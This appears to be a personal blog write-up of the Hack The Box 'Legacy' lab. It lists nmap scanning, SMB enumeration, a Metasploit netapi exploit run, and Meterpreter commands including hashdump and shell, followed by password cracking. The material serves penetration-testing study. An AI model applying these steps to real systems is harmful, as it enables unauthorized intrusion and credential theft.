 ```yaml
---
layout: post
title: Network Security
subtitle: HTB Legacy
cover-img: /assets/img/path.jpg
tags: [Pentesting, Vulnerability Assessment, CTF, NMAP, Meterpreter]
---
```


TCP scan - 
 ```
 SYN 
 ACK+SYN
 ACK
```

SYN scan -
```
SYN 
ACK+SYN
RST
```

#### Running NMAP

nmap -A -T4 -p- <i.p>
   •  Port 139, 445  open
      ◇ smbclient -L \\<ip>\
      ◇ enum4linux -a <ip>[ optional ]

⇒ msfconsole
   • search smb_version
      ◇  We dont't know the smb version here, so checked rapid7 website and got netapi
      ◇  search netapi
           • use 1 
           • set rhosts <ip>, <ip>/24
           • run/exploit

#### Meterpreter commands - 
   • getuid
   • sysinfo
   • help(optional)
   • hashdump
   • shell
      ◇ Will redirect to System32 
⇒ Crack the passwords


#### For detailed explanation : [Another approach](https://medium.com/@ranakhalil101/hack-the-box-legacy-writeup-w-o-metasploit-2d552d688336)



